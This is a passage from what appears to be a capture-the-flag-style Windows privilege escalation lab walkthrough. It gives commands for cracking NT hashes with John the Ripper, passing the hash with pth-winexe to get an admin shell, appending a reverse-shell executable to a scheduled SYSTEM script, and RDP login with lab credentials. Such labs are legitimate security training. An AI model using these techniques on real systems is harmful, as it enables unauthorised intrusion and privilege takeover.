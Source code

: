```bash
:~/WindowsPrivEsc# pip3 install pycrypto
Requirement already satisfied: pycrypto in /usr/lib/python3/dist-packages (2.6.1)
...
```

```bash
:~/WindowsPrivEsc# john --format=NT Hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<img width="1167" height="241" alt="image" src="https://github.com/user-attachments/assets/228add03-d7de-4198-b9ae-ebe2957d1c43" />


<br>
<h2>Task 12 . 𝗣𝗮𝘀𝘀𝘄𝗼𝗿𝗱𝘀 - Passing the Hash<a id='12'></h2>
<p>Why crack a password hash when you can authenticate using the hash?<br>

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. Remember the full hash includes both the LM and NTLM hash, separated by a colon:<br>

<code>pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe</code></p>

<p><em>Answer the question below</em></p>

<p>12.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

<br>
<h2>Task 13 . Scheduled Tasks<a id='13'></h2>
<p>View the contents of the C:\DevTools\CleanUp.ps1 script:<br>

<code>type C:\DevTools\CleanUp.ps1</code><br>

The script seems to be running as SYSTEM every minute. Using accesschk.exe, note that you have the ability to write to this file:<br>

<code>C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1</code><br>

Start a listener on Kali and then append a line to the C:\DevTools\CleanUp.ps1 which runs the reverse.exe executable you created:<br>

<code>echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1</code><br>

Wait for the Scheduled Task to run, which should trigger the reverse shell as SYSTEM.</p>

<p><em>Answer the question below</em></p>

<p>13.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

<br>
<h2>Task 14 . Insecure GUI Apps<a id='14'></h2>
<p>Start an RDP session as the "user" account:<br>

<code>rdesktop -u user -p password321 MACHINE_IP</code><br>

Double-click the "AdminPaint" shortcut on your Desktop. Once it is running, open a command prompt and note that Paint is running with admin privileges:<br>

<code>tasklist /V | findstr mspaint.exe</code><br>
